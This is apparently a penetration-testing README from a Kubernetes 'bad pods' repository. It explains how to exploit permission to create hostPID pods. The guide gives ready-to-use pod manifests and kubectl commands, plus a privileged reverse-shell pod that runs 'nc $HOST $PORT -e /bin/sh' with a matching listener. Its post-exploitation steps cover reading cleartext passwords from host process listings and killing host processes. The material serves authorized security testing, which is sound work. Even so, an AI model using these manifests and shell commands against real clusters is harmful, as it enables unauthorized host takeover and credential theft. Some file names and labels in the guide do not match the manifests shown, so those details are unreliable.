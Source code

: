 ## You can create a pod with only hostPID

You are exploiting the fact that there are no polices preventing the creation of pod with access to the node's filesystem. You are going to create a pod and gain full read/write access to the filesystem of the node the pod is running on. 


# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostpid
  labels:
    app: hostpid
spec:
  hostPID: true
  containers:
  - image: ubuntu
    command:
      - "sleep"
      - "604800"
    imagePullPolicy: IfNotPresent
    name: hostpid
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  restartPolicy: Always
  ```
[pod-priv.yaml](pod-priv.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostpid.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostpid/pod-hostpid.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostpid -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-priv-revshell
  labels: 
    app: pentest
spec:
  containers:
  - name: priv-revshell
    image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    securityContext:
      privileged: true
    #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name```
[pod-hostpid-revshell.yaml](pod-hostpid-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/hostpid/pod-hostpid-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```


# Post exploitation

#### View all processes running on the host and look for passwords, tokens, keys, etc. 
```bash
ps -aux
...omitted for brevity...
root     2123072  0.0  0.0   3732  2868 ?        Ss   21:00   0:00 /bin/bash -c while true; do ./my-program --grafana-uername=admin --grafana-password=admin; sleep 10;done
...omitted for brevity...
```
Check out that clear text password in the ps output below! 

#### Also, you can also kill any process, but don't do that in production :)

#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

